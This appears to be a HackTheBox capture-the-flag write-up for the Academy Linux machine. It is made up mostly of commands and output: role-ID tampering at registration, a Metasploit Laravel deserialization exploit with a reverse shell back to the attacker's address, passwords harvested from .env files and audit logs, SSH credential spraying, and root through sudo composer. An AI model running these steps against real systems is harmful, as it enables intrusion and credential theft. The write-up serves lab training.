









# CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Academy](https://www.hackthebox.com/machines/Academy)


- Machine type:  Linux
- Machine difficulty: 🟩 Easy (4.7)

> **Academy** is an easy difficulty Linux machine that features an Apache server hosting a PHP website. The website is found to be the HTB Academy learning platform. Capturing the user registration request in Burp reveals that we are able to modify the Role ID, which allows us to access an admin portal. This reveals a vhost, that is found to be running on Laravel. Laravel debug mode is enabled, the exposed API Key and vulnerable version of Laravel allow us carry out a deserialization attack that results in Remote Code Execution. Examination of the Laravel `.env` file for another application reveals a password that is found to work for the `cry0l1t3` user, who is a member of the `adm` group. This allows us to read system logs, and the TTY input audit logs reveals the password for the `mrb3n` user. `mrb3n` has been granted permission to execute composer as root using `sudo`, which we can leverage in order to escalate our privileges.

#### Skills Learned

- **Insecure Direct Object Reference (IDOR) / Parameter Tampering**
- **CVE-2018-15133;CVE-2017-16894**
- **Credentials Harvesting** - `/var/log/audit/audit.log`,`/var/www/html/*/.env`
- **Linux Privilege Escalation** - `sudo` Rights Abuse

#### Tools Used

Linux:
- `nmap`
- `whatweb`
- `ffuf`
- `burpsuite`
- `searchsploit`
- `msfconsole`
- `crackmapexec`
- `peass-ng`
- [GTFOBins](https://gtfobins.github.io/)

#### Machine Writeup

```
┌──(nabla㉿kali)-[~]
└─$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.18  netmask 255.255.254.0  destination 10.10.14.18

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ echo -e '10.10.10.215\tacademy.htb' | sudo tee -a /etc/hosts

10.10.10.215	academy.htb
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- academy.htb -T5 --min-rate=10000

[SNIP]

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sSVC -p22,80,33060 academy.htb

PORT   STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)

[SNIP]

80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Hack The Box Academy
|_http-server-header: Apache/2.4.41 (Ubuntu)

33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://academy.htb

http://academy.htb [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.215], Title[Hack The Box Academy]
```







```
┌──(nabla㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/web-extensions.txt -u http://academy.htb/indexFUZZ -ic -t 20

[SNIP]

.php                    [Status: 200, Size: 2117, Words: 890, Lines: 77, Duration: 7ms]
.phps                   [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 7ms]
```

```
┌──(nabla㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://academy.htb/FUZZ -e .php,.phps -ic -t 20

[SNIP]

index.php               [Status: 200, Size: 2117, Words: 890, Lines: 77, Duration: 8ms]
home.php                [Status: 302, Size: 55034, Words: 4001, Lines: 1050, Duration: 8ms]
login.php               [Status: 200, Size: 2627, Words: 667, Lines: 142, Duration: 9ms]
register.php            [Status: 200, Size: 3003, Words: 801, Lines: 149, Duration: 9ms]
admin.php               [Status: 200, Size: 2633, Words: 668, Lines: 142, Duration: 8ms]
```



**Insecure Direct Object Reference (IDOR) / Parameter Tampering**

```http
POST /register.php HTTP/1.1
Host: academy.htb

[SNIP]

Content-Type: application/x-www-form-urlencoded

[SNIP]

uid=admin_test&password=Test123&confirm=Test123&roleid=1
```







```
┌──(nabla㉿kali)-[~]
└─$ echo -e '10.10.10.215\tdev-staging-01.academy.htb' | sudo tee -a /etc/hosts

10.10.10.215	dev-staging-01.academy.htb
```



**CVE-2018-15133;CVE-2017-16894**

```
┌──(nabla㉿kali)-[~]
└─$ searchsploit laravel --json | jq '.RESULTS_EXPLOIT[] | {Title, Codes, Path}'

[SNIP]

{
  "Title": "PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution (Metasploit)",
  "Codes": "CVE-2018-15133;CVE-2017-16894",
  "Path": "/usr/share/exploitdb/exploits/linux/remote/47129.rb"
}
```



```
APP_KEY 	"base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
```

```
┌──(nabla㉿kali)-[~]
└─$ vim exploit.rc

use exploit/unix/http/laravel_token_unserialize_exec
set PAYLOAD cmd/unix/reverse_perl
set RHOSTS dev-staging-01.academy.htb
set TARGETURI /
set RPORT 80
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set LHOST 10.10.14.18
set LPORT 1234
set Proxies http:127.0.0.1:8080
set ReverseAllowProxy true
run
```

```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -r exploit.rc

[SNIP]

[*] Started reverse TCP handler on 10.10.14.18:1234 
[*] Command shell session 1 opened (10.10.14.18:1234 -> 10.10.10.215:52896) at 2025-06-26 06:04:39 -0500

python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@academy:/var/www/html/htb-academy-dev-01/public$
```

```
www-data@academy:/var/www/html/htb-academy-dev-01/public$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
www-data@academy:/var/www$ ls -l /home

total 24
drwxr-xr-x 2 21y4d    21y4d    4096 Aug 10  2020 21y4d
drwxr-xr-x 2 ch4p     ch4p     4096 Aug 10  2020 ch4p
drwxr-xr-x 4 cry0l1t3 cry0l1t3 4096 Aug 12  2020 cry0l1t3
drwxr-xr-x 3 egre55   egre55   4096 Aug 10  2020 egre55
drwxr-xr-x 2 g0blin   g0blin   4096 Aug 10  2020 g0blin
drwxr-xr-x 5 mrb3n    mrb3n    4096 Aug 12  2020 mrb3n
```

```
www-data@academy:/var/www$ find /home -iname user.txt 2> /dev/null

/home/cry0l1t3/user.txt
```

```
www-data@academy:/var/www$ ls -l /home/cry0l1t3/user.txt

-r--r----- 1 cry0l1t3 cry0l1t3 33 Jun 25 16:12 /home/cry0l1t3/user.txt
```

```
www-data@academy:/var/www$ cat /home/cry0l1t3/user.txt

cat: /home/cry0l1t3/user.txt: Permission denied ❌
```

```
www-data@academy:/var/www$ cat /etc/passwd | grep `whoami`

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin ❌
```

**Credentials Harvesting**

```
www-data@academy:/var/www$ cat /var/www/html/academy/.env

[SNIP]

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

```
www-data@academy:/var/www$ cat /var/www/html/htb-academy-dev-01/.env

[SNIP]

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=homestead
DB_USERNAME=homestead
DB_PASSWORD=secret
```

```
www-data@academy:/var/www$ mysql -h 127.0.0.1 -P 3306 -u dev -pmySup3rP4s5w0rd!!

ERROR 1045 (28000): Access denied for user 'dev'@'localhost' (using password: YES) ❌

www-data@academy:/var/www$ mysql -h 127.0.0.1 -P 3306 -u homestead -psecret

ERROR 1045 (28000): Access denied for user 'homestead'@'localhost' (using password: YES) ❌
```

```
www-data@academy:/var/www$ cat /etc/passwd | grep "sh$" | awk '{print $1}'

root
egre55
mrb3n
cry0l1t3
21y4d
ch4p
g0blin
```

```
┌──(nabla㉿kali)-[~]
└─$ vim htb_academy_users.txt

root
egre55
mrb3n
cry0l1t3
21y4d
ch4p
g0blin
```

```
┌──(nabla㉿kali)-[~]
└─$ vim htb_academy_passwords.txt

mySup3rP4s5w0rd!!
secret
```

```
┌──(nabla㉿kali)-[~]
└─$ crackmapexec ssh academy.htb -u htb_academy_users.txt -p htb_academy_passwords.txt --continue-on-success

[SNIP]

SSH         10.10.10.215    22     academy.htb      [+] cry0l1t3:mySup3rP4s5w0rd!!  Linux - Shell access!
```

```yaml
credentials:
    username: cry0l1t3
    password: mySup3rP4s5w0rd!!
    protocol: ssh
    host: academy.htb
    port: 22
```

```
┌──(nabla㉿kali)-[~]
└─$ ssh cry0l1t3@academy.htb

cry0l1t3@academy.htb's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-52-generic x86_64)

[SNIP]

$ bash

cry0l1t3@academy:~$ 
```

```
cry0l1t3@academy:~$ id

uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)

cry0l1t3@academy:~$ cat /home/cry0l1t3/user.txt 

c91ea*************************** 🚩
```

```
cry0l1t3@academy:~$ groups

cry0l1t3 adm
```

**Credentials Harvesting**

```
cry0l1t3@academy:~$ cat linpeas.output

[SNIP]

╔══════════╣ Checking for TTY (sudo/su) passwords in audit logs
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>

[SNIP]
```

```
cry0l1t3@academy:~$ aureport --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
3. 08/12/2020 02:28:24 89 0 ? 1 sh "whoami",<nl>
4. 08/12/2020 02:28:28 90 0 ? 1 sh "exit",<nl>

[SNIP]
```

```yaml
credentials:
    username: mrb3n
    password: mrb3n_Ac@d3my!
    protocol: ssh
    host: academy.htb
    port: 22
```

```
cry0l1t3@academy:~$ su mrb3n

Password: 

mrb3n@academy:~$
```

**Linux Privilege Escalation**

```
mrb3n@academy:~$ sudo -l

[SNIP]

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

```php
/usr/bin/composer

#!/usr/bin/php
<?php

if (PHP_SAPI !== 'cli' && PHP_SAPI !== 'phpdbg') {
    echo 'Warning: Composer should be invoked via the CLI version of PHP, not the '.PHP_SAPI.' SAPI'.PHP_EOL;
}

setlocale(LC_ALL, 'C');
require 'Composer/autoload.php';

use Composer\Console\Application;
use Composer\XdebugHandler\XdebugHandler;

error_reporting(-1);

// Restart without Xdebug
$xdebug = new XdebugHandler('Composer', '--ansi');
$xdebug->check();
unset($xdebug);

if (defined('HHVM_VERSION') && version_compare(HHVM_VERSION, '4.0', '>=')) {
    echo 'HHVM 4.0 has dropped support for Composer, please use PHP instead. Aborting.'.PHP_EOL;
    exit(1);
}

if (function_exists('ini_set')) {
    @ini_set('display_errors', 1);

    $memoryInBytes = function ($value) {
        $unit = strtolower(substr($value, -1, 1));
        $value = (int) $value;
        switch($unit) {
            case 'g':
                $value *= 1024;
                // no break (cumulative multiplier)
            case 'm':
                $value *= 1024;
                // no break (cumulative multiplier)
            case 'k':
                $value *= 1024;
        }

        return $value;
    };

    $memoryLimit = trim(ini_get('memory_limit'));
    // Increase memory_limit if it is lower than 1.5GB
    if ($memoryLimit != -1 && $memoryInBytes($memoryLimit) < 1024 * 1024 * 1536) {
        @ini_set('memory_limit', '1536M');
    }
    // Set user defined memory limit
    if ($memoryLimit = getenv('COMPOSER_MEMORY_LIMIT')) {
        @ini_set('memory_limit', $memoryLimit);
    }
    unset($memoryInBytes, $memoryLimit);
}

putenv('COMPOSER_BINARY='.realpath($_SERVER['argv'][0]));

// run the command application
$application = new Application();
$application->run();
```


```
mrb3n@academy:~$ TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x

[SNIP]

Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# 
```

```
# id

uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt

1be05*************************** 🚩
```


---
---
